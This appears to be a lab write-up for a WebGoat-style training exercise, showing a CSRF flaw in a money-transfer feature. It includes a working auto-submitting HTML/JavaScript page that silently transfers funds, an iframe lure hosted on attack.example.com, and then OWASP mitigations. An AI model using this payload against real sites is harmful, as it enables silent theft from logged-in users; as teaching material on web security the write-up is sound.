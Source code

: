 ## Vulnerability:

Money transferring mechanism on this site is vulnerable to CSRF attacks.

CSRF takes advantage of the inherent statelessness of the web to simulate user actions on one website (the target site) from another website (the attacking site).

## Exploitation:

Actual attack would consist of 2 following steps:

1) Preparing malicious HTML/JavaScript site that performs silent money transfer & hosting it somewhere. For example: CSRF html file on attacker's server (http://attack.example.com/csrf.html):

```
<html>
<script>

function sendMeMoney() {
var accountNo = 123;
var balance = 999;
var url = 'http://webgoat.hacking-lab.com/attack?Screen=68&menu=400&from=ajax&newAccount='+ accountNo+ '&amount=' + balance +'&confirm=Transferring';
if (typeof XMLHttpRequest != 'undefined') {
req = new XMLHttpRequest();
} else if (window.ActiveXObject) {
req = new ActiveXObject('Microsoft.XMLHTTP');
}
req.open('GET', url, true);
req.send(null);
}

</script>
<body onload='sendMeMoney();'>

</body>
</html>
```

This site will automatically (when loaded) transfer 999 to attacker's account number (123)


2) Enticing owner of the bank account (social engineering, phising, etc.) to visit site which has reference to csrf.html (for example: `<iframe width="0" height="0" src="http://attack.example.com/csrf.html">`) while logged in to his bank account. This would result in silent transfer of 999$ to attacker's bank account (123).

## Mitigation:

Classical defense against CRSF is using synchronizer token pattern (
http://www.corej2eepatterns.com/Design/PresoDesign.htm). Implementations of which exists for Java (https://www.owasp.org/index.php/Category:OWASP_CSRFGuard_Project) and PHP
(https://www.owasp.org/index.php/CSRFProtector_Project) applications.

